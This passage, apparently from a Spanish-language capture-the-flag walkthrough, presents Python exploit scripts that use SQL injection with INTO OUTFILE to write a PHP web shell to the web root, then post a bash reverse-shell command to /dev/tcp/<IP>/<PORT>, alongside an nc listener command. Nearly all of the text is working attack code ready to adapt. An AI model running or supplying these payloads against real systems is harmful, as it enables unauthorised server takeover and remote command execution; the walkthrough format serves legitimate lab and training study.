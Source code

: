 ```python
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
        getAccess()
```

Tendremos que cambiar los parametros `<IP>` y `<PORT>` a nuestras necesidades para la `Reverse Shell`...

Pero cuando lo ejecutemos tendremos que estar a la escucha...

```shell
nc -lvnp <PORT>
```

Si por queremos automatizarlo todavia mas para que el propio script te de la shell directamente sin tu tener que estar a la escucha, haremos lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = <PORT>

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
```